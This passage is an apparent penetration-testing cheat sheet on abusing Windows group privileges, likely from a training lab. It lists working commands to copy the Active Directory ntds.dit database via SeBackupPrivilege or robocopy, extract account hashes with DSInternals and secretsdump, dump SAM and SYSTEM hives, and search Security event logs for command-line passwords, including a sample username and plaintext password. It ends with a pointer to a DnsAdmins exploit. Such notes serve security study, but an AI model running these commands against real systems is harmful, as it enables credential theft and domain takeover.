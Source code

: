 Bypass the ACL and copy the NTDS locally
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Extract credentials from NTDS.dit
```powershell
Import-Module .\DSInternals.psd1

$key = Get-BootKey -SystemHivePath .\SYSTEM

Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
Using SecretsDump.py (impacket)
```python
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
CopyFiles with Robocopy
```shell
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
Backup the SAM and SYSTEM registry hives.
```shell
reg save HKLM\SYSTEM SYSTEM.SAV

reg save HKLM\SAM SAM.SAV
```

## [Event Log Readers](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers>)
Confirm group membership 
```shell-session 
net localgroup "Event Log Readers"
```
Query windows events using [wevutil (CMD)](<Windows/PrivEsc/Windows Group Privileges.md>) Or [Get-WinEvent(PS)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.3&viewFallbackFrom=powershell-7.1)
Search for security Logs. 
```shell-session
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

```Powershell
`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`
```
Pass Credentials to wevutil 
```shell-session 
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

## DNS Admins
DNS service runs as "NT AUTHORITY/ SYSTEM"
Use [DNSCMD](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)to run an [exploit](https://adsecurity.org/?p=4064)
